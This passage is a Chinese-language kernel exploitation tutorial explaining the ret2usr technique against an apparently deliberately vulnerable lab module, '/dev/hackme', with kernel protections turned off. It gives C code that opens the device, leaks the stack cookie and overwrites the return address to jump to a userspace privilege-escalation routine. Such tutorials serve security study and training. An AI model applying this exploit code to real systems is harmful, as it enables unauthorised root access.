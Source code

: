 #### 最简单的利用——ret2usr
##### 概念
回想一下，当我们刚学用户级pwn时，大多数人应该见过简单的堆栈缓冲区溢出问题，其中`ASLR`是禁用的，`NX`位没有设置。这是一种称为`ret2shellcode`的技术。我们将shellcode放在栈的某个地方，调试找到它的地址，用它覆盖当前函数的返回地址。
返回到用户（即`ret2usr`）想法与其类似。因为我们可以完全控制用户空间中的内容，比起将shellcode放在栈上，我们可以直接把希望程序流跳转到的代码放在用户空间中。之后，我们只需用该地址覆盖内核中正在调用的函数的返回地址。因为易受攻击的函数是一个内核函数，所以即使我们的代码在用户空间中，也要在内核模式下执行。通过这种方式，我们已经实现了任意代码执行。
为了让该技术生效，我们将删除qemu运行脚本中的大部分保护功能（如`+smep`, `+smap`, `kpti=1`, `kaslr`），并添加`nopti`, `nokaslr`。
由于这是本系列的第一个技术，我将一步一步地解释利用过程。

##### 打开设备
在与模块交互之前，我们必须先打开它。打开设备和打开普通文件一样简单：
```c
int global_fd;

void open_dev(){
    global_fd = open("/dev/hackme", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
        puts("[*] Opened device");
    }
}
```
现在我们就可以读写`global_fd`了。

##### 栈cookie泄漏
因为我们可以读任意栈，栈cookie泄漏很简单。栈上的`tmp`缓冲区0x80字节长，栈cookie紧随其后。因此，如果我们将数据读到一个无符号长数组（每个元素8字节），cookie的偏移量将是16：
```c
unsigned long cookie;

void leak(void){
    unsigned n = 20;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
}
```

##### 覆盖返回地址
与栈cookie泄漏相同，我们将创建一个无符号长数组，然后在索引值为16处用泄漏的cookie覆盖原cookie。需要注意的是，与用户程序不同，这个内核函数从栈中弹出`rbx`, `r12`, `rbp`3个寄存器，而不仅仅是`rbp`（可以在反汇编函数时清楚地看到）。因此，我们必须在cookie后面放3个虚拟值。其后放希望程序返回的返回地址，它是我们在用户空间上精心设计以得到根权限的函数。我称之为`escalate_privs`：
```c
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```